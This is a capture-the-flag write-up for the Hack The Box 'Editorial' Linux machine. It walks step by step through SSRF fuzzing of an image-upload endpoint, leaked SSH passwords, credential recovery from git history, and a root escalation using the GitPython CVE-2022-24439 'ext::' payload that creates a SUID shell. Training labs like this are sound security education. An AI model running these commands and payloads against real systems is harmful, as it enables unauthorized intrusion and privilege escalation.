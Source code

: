 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used:**  
  - SSRF in image upload to hit internal Flask API  
  - Internal API enumeration for dev SSH creds  
  - Git repo recovery for prod SSH creds  
  - CVE‑2022‑24439 GitPython “ext::” RCE via sudo  

**Open Ports:**  
- [SSH](SSH) 22/tcp  
- [HTTP](HTTP) 80/tcp  

**Tools:**  
nmap, ffuf, feroxbuster, Burp Suite, curl, git‑dumper, git, unzip/zip, Python 3 (requests), sshpass  

---

## Recon 🔍  
```bash
# Scan for services
nmap -p- --min-rate 10000 10.10.11.20
nmap -p 22,80 -sCV       10.10.11.20

# Fuzz internal ports via SSRF endpoint
ffuf -u http://editorial.htb/upload-cover \
     -request ssrf.request \
     -w <(seq 0 65535) -ac
```

---

## Shell as dev 🐚  
1. **Exploit SSRF** on `/upload-cover` by supplying `http://127.0.0.1:5000` → retrieve JSON from internal API.  
2. **Enumerate endpoints**, hit `/api/latest/metadata/messages/authors` → leak:  
   ```
   Username: dev
   Password: dev080217_devAPI!@
   ```  
3. **SSH in** as dev:  
   ```bash
   sshpass -p 'dev080217_devAPI!@' ssh dev@editorial.htb
   cat user.txt
   ```

---

## Shell as prod 👤  
1. **Recover deleted apps repo** in `~/apps/.git`:  
   ```bash
   cd ~/apps
   git checkout .
   ```  
2. **Inspect git history** (`git log`) and diff `app_api/app.py` → find prod creds:  
   ```
   Username: prod
   Password: 080217_Producti0n_2023!@
   ```  
3. **SSH in** as prod:  
   ```bash
   sshpass -p '080217_Producti0n_2023!@' ssh prod@editorial.htb
   ```

---

## Shell as root 👑  
1. **Check sudo:**  
   ```bash
   sudo -l
   # Allows: python3 clone_prod_change.py *
   ```  
2. **Abuse GitPython RCE (CVE‑2022‑24439):**  
   ```bash
   sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py \
     'ext::sh -c "cp /bin/sh /tmp/rootshell; chmod 4755 /tmp/rootshell"'
   /tmp/rootshell -p
   whoami   # → root
   cat /root/root.txt
   ```

---

## Actions Learned 🎓  
- SSRF pivot to internal API  
- Automated API enumeration for creds  
- Git repo forensic recovery  
- GitPython protocol extension RCE via sudo  
- Crafting SUID shell via RCE  

---

## References 🔗  
- [CVE‑2022‑24439 — GitPython protocol.ext.allow exploit](https://nvd.nist.gov/vuln/detail/CVE-2022-24439)  
- Flask SSRF patterns in image‑upload handlers  
- GitPython `clone_from(..., multi_options=["-c protocol.ext.allow=always"])` behavior